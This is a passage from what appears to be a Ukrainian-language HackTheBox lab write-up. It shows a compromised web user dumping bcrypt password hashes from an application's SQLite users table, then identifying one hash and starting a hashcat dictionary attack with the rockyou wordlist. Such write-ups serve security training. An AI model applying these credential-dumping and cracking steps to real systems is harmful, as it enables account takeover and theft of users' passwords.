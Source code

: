 ![image](imgs/users-db.png)

```bash
www-data@environment:~/app/database$ sqlite3 database.sqlite
sqlite3 database.sqlite
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
cache                  jobs                   sessions
cache_locks            mailing_list           users
failed_jobs            migrations
job_batches            password_reset_tokens
sqlite> select * from users;
select * from users;
1|Hish|hish@environment.htb||$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi||2025-01-07 01:51:54|2025-01-12 01:01:48|hish.png
2|Jono|jono@environment.htb||$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm||2025-01-07 01:52:35|2025-01-07 01:52:35|jono.png
3|Bethany|bethany@environment.htb||$2y$12$6kbg21YDMaGrt.iCUkP/s.yLEGAE2S78gWt.6MAODUD3JXFMS13J.||2025-01-07 01:53:18|2025-01-07 01:53:18|bethany.png
sqlite>
```

Ми бачимо хешований пароль нашого користувача hish, який можемо спробувати зламати за допомогою hashcat:

```bash
~/HackTheBox/environment > echo '$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi' > hish_hash.txt
~/HackTheBox/environment > hashid hish_hash.txt
--File 'hish_hash.txt'--
Analyzing '$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
--End of file 'hish_hash.txt'--%
~/HackTheBox/environment > hashcat hish_hash.txt -m 3200 /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v7.1.2) starting
```
